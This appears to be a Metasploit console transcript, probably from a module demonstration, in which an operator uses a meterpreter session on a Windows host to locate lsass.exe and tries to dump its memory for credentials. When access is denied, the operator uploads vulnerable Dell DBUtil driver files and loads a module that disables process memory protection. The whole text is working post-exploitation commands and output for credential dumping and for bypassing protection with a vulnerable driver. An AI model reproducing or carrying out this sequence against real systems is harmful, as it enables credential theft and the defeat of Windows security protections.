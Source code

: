 ```
Filtering on 'lsass'

Process List
============

 PID  PPID  Name       Arch  Session  User  Path
 ---  ----  ----       ----  -------  ----  ----
 740  572   lsass.exe  x64   0

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use post/windows/gather/memory_dump
msf6 post(windows/gather/memory_dump) > options

Module options (post/windows/gather/memory_dump):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DUMP_PATH                   yes       File to write memory dump to
   DUMP_TYPE  standard         yes       Minidump size (Accepted: standard, full)
   PID                         yes       ID of the process to dump memory from
   SESSION                     yes       The session to run this module on

msf6 post(windows/gather/memory_dump) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/memory_dump) > set PID 740
PID => 740
msf6 post(windows/gather/memory_dump) > set DUMP_PATH C:\\Windows\\Temp\\lsass_dump
DUMP_PATH => C:\Windows\Temp\lsass_dump
msf6 post(windows/gather/memory_dump) > run

[*] Running module against BADBLOOD
[*] Dumping memory for lsass.exe
[-] Post aborted due to failure: payload-failed: Unable to open process: Access is denied.
[*] Post module execution completed
msf6 post(windows/gather/memory_dump) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > upload /home/albinolobster/drivers/2_7/ C:\\Windows\\Temp
[*] uploading  : /home/albinolobster/drivers/2_7/WdfCoInstaller01009.dll -> C:\Windows\Temp\WdfCoInstaller01009.dll
[*] uploaded   : /home/albinolobster/drivers/2_7/WdfCoInstaller01009.dll -> C:\Windows\Temp\WdfCoInstaller01009.dll
[*] uploading  : /home/albinolobster/drivers/2_7/DBUtilDrv2.cat -> C:\Windows\Temp\DBUtilDrv2.cat
[*] uploaded   : /home/albinolobster/drivers/2_7/DBUtilDrv2.cat -> C:\Windows\Temp\DBUtilDrv2.cat
[*] uploading  : /home/albinolobster/drivers/2_7/dbutildrv2.inf -> C:\Windows\Temp\dbutildrv2.inf
[*] uploaded   : /home/albinolobster/drivers/2_7/dbutildrv2.inf -> C:\Windows\Temp\dbutildrv2.inf
[*] uploading  : /home/albinolobster/drivers/2_7/DBUtilDrv2.sys -> C:\Windows\Temp\DBUtilDrv2.sys
[*] uploaded   : /home/albinolobster/drivers/2_7/DBUtilDrv2.sys -> C:\Windows\Temp\DBUtilDrv2.sys
meterpreter > background
[*] Backgrounding session 1...
msf6 post(windows/gather/memory_dump) > use post/windows/manage/dell_memory_protect 
msf6 post(windows/manage/dell_memory_protect) > options

Module options (post/windows/manage/dell_memory_protect):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   DRIVER_PATH                          yes       The path containing the driver inf, cat, and sys (and coinstaller)
   ENABLE_MEM_PROTECT  false            yes       Enable or disable memory protection
   PID                                  yes       The targetted process
   SESSION                              yes       The session to run this module on
```